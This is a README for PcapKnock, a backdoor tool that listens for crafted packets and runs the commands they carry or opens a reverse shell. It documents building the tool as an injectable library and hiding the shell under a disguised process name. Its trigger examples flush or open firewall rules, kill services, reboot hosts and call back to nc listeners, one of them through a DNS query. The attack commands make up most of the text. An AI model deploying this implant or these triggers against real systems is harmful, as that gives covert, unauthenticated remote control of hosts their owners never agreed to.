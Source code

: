 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but often needs tweaking.

Usage
-----
Once pcapknock is running, all that's required to trigger it is a packet
containing either a command to run surrounded by `COMMAND...COMMAND` or an
address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Two compile-time preprocessor macros may be set when building to control
debugging output and to cause the pcapknock to daemonze when run as a
standalone program.  These are `DEBUG` and `DAEMON`, respectively (i.e.
`-DDEBUG` and `-DDAEMON` when compiling).

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.


/* TODO: Delete below */

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build:
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
# Port doesn't matter as long as a PSH is made
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```
Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.  If `DEVICE` is the empty
string, all interfaces will be used.

The configurable settings are:

Setting       | Default    | Description
--------------|------------|---------------------------------
`DEVICE`      | `""`       | Device on which to sniff packets
`SHELLNAME`   | `kexecd`   | Shell process name (i.e. `argv[0]`)
`CBMARKER`    | `CALLBACK` | Marker for reverse shell addresses
`CMDMARKER`   | `COMMAND`  | Marker for commands
`DOUBLEFORK`  | _unset_    | If defined, disassociates from the terminal when running as a program
| | |It is unlikely the below will need to be changed |
`MAXKNOCK`    | `4096`     | Maximum command/address length
`CLMAXFD`     | `10240`    | Maximum filedescriptor number to close after fork
`CONSTRUCTOR` | _unset_    | If defined, runs as a constructor (for injection)
`ERROUT`      | _unset_    | If defined, outputs error messages

Only the first four will likely need to be changed in most cases.

